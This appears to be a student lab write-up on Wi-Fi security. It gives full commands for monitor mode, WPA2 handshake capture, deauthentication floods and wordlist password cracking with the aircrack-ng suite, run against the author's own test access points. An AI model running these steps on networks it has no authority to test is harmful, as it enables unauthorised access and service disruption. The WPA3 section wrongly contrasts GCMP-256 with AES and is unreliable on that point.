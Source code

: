 ## 1. Learn the basic working of Wi-Fi and its types with various types of attacks on it.

To transmit and receive data wirelessly, Wi-Fi uses a wireless network adapter on each device, which converts the data into radio waves and sends them to the Wi-Fi router. The router then receives these radio waves and converts them back into data that can be sent to the internet or other devices on the network. Wi-Fi operates on different frequencies and channels, which determine the speed and range of the wireless connection.

- **Rogue access points** - attackers can set up a fake access point that appears to be legitimate, tricking users into connecting to it and giving away their sensitive information.

- **Man-in-the-middle attacks** - attackers intercept and alter data as it is transmitted between devices, allowing them to steal sensitive information.

- **Denial-of-service attacks** - attackers flood the Wi-Fi network with traffic, causing it to crash or become unusable.

- **Eavesdropping** - attackers can intercept and read data that is being transmitted between devices over the Wi-Fi network.

- **Password cracking** - attackers can use specialized software to crack the Wi-Fi network's password, giving them access to the network and any sensitive information transmitted over it.

----------------------

## 2. Perform Wi-Fi fingerprinting using Wigile, Inssider, and Kismet.

#### Kismet -

- Put Your Wireless Card in Monitor Mode by using the command `sudo airmon-ng start wlan0`

![image](https://user-images.githubusercontent.com/67383098/230551170-37f0d414-dd18-4c86-b728-5cfbacc2f2d3.png)

- Launch Kismet by using the command `kismet -c wlanomon`

![image](https://user-images.githubusercontent.com/67383098/230552556-1d7bd6a6-bc11-4152-9989-001327bbfb93.png)

Go to **localhost:2501** to view kismet page. Create a account with any password, in this case I created **username:kismet** & **password:kismet**

![image](https://user-images.githubusercontent.com/67383098/230552480-bdc61d8a-b846-4b13-a472-d352e2c0d806.png)

Here we can see the **SSID** & the type of encryption being used.

![image](https://user-images.githubusercontent.com/67383098/230552332-32a6be07-3554-4bff-9661-17fe92d3b727.png)

--------------------------------------------

## 3. Create an Access point with any Wi-Fi encryption standard and start testing the security of
that connection using any Wi-Fi security testing tools, which should include (Aircrack-Ng,
Wifite, not limited). Try to capture the 4-way handshake using these methods.

Start monitor mode - `airmon-ng start wlan0`

![image](https://user-images.githubusercontent.com/67383098/230554024-50eefd46-08d0-4e50-a525-dd92dec5881a.png)


Capture wireless traffice using - `airodump-ng wlan0`

![image](https://user-images.githubusercontent.com/67383098/230555155-dc581e48-5db2-4a9d-b319-0dd5f2197e66.png)

Focus Airodump-Ng on One AP on One Channel - `airodump-ng --bssid EA:B0:24:9F:4A:50  -c 5 --write WPAcrack wlan0`

It will capture and store all the files including .pcap file to the present directory which can later be used for bruteforcing  the password.

![image](https://user-images.githubusercontent.com/67383098/230556046-cc586b48-b820-4505-9169-646d9a28cff4.png)

Aireplay-Ng Deauth - `aireplay-ng --deauth 100 -a EA:B0:24:9F:4A:50 wlan0`

![image](https://user-images.githubusercontent.com/67383098/230556612-09f1a09a-3aa7-49f5-ad7f-7ad0435c226a.png)

Below is the captured **4 way handshake** during the deauth process

![image](https://user-images.githubusercontent.com/67383098/230556884-b437c7ae-6f60-4174-be73-a34409ed85ec.png)



----------------------------

## 4. After capturing the required files for testing, use dictionary generation and password
cracking tools to crack the Wi-Fi password.
a. You must use an existing word file to crack the password.
b. Also you have to create your dictionary file for cracking the passwords.
c. Keep 3 different types of passwords for your Wi-Fi to test it. Simple, medium, and
complex passwords can be used for testing. Simple can be a dictionary word,
medium can be of dictionary word with some numbers, and complex can be
generated from any password generator online.

Password is `c6dp6m2k`

Now first we try to crack a hard password which was set as password for the  Wifi AP named *realme 10 pro 5g*.

Command - `aircrack-ng WPAcrack-03.cap  -w /usr/share/wordlists/rockyou.txt`

![image](https://user-images.githubusercontent.com/67383098/230557921-fe84d8c4-95d1-48c9-b34d-eb4152d05847.png)

When we use a weak password, we can crack it in less time using aircrack-ng. (REPEAT ALL THE PROCESS ABOVE AND CAPTURE THE TRAFFIC)

aircrack-ng testt.cap -w /usr/share/wordlists/rockyou.txt

![image](https://user-images.githubusercontent.com/67383098/230582697-1c10599d-ef77-4013-b14d-f184c284929d.png)

As seen above , we have our password for the wifi AP which has WPA2 encryption which is **raymond23**

--------------------------

## 5. Use Rouge AP (WifiPhisher) to create an Evil twin, perform a basic phishing attack using this
rouge AP, and document the difference between the two attacks you have performed.

------------------------------

## 6. Learn the protocol level working of WPA3 and how it differs from WPA2.

WPA3 (Wi-Fi Protected Access III) is the latest security protocol for Wi-Fi networks, introduced by the Wi-Fi Alliance in 2018. It is designed to improve the security and privacy of Wi-Fi networks, addressing some of the vulnerabilities and weaknesses of its predecessor, WPA2. It uses a stronger authentication method, stronger encryption, and forward secrecy. It also includes a new feature to improve the security of public Wi-Fi networks. These improvements make it more difficult for attackers to gain unauthorized access to Wi-Fi networks and intercept data transmitted over them, providing a higher level of security for users.

Authentication: WPA3 uses a new authentication method called Simultaneous Authentication of Equals (SAE), also known as Dragonfly. This replaces the pre-shared key (PSK) method used in WPA2, which is vulnerable to brute force attacks. SAE is a stronger form of password-based authentication, which uses a cryptographic algorithm to protect against these types of attacks.

Encryption: WPA3 uses 256-bit Galois/Counter Mode Protocol (GCMP-256) encryption, which is more secure than the Advanced Encryption Standard (AES) encryption used in WPA2. GCMP-256 provides stronger protection against unauthorized access and data interception, as well as reducing the risk of side-channel attacks.

Forward Secrecy: WPA3 also includes support for Forward Secrecy, which generates a unique key for each session between a client and the access point. This makes it more difficult for an attacker to access past communications even if they are able to obtain the key used for the current session.

Public Wi-Fi Security: WPA3 includes a new feature called Opportunistic Wireless Encryption (OWE), which is designed to improve the security of public Wi-Fi networks. OWE encrypts data exchanged between a user and a Wi-Fi access point, even if the user doesn't have a password for the network. This helps protect against unauthorized access and data interception on public Wi-Fi networks.



Reference Links:
1. https://github.com/wifiphisher/wifiphisher
2. https://web.stanford.edu/class/ee26n/Assignments/Assignment7.html
3. https://www.wifi-professionals.com/2019/01/4-way-handshake
4. https://nooblinux.com/crack-wpa-wpa2-wifi-passwords-using-aircrack-ng-kali-linux/
5. https://en.wikipedia.org/wiki/IEEE_802.11

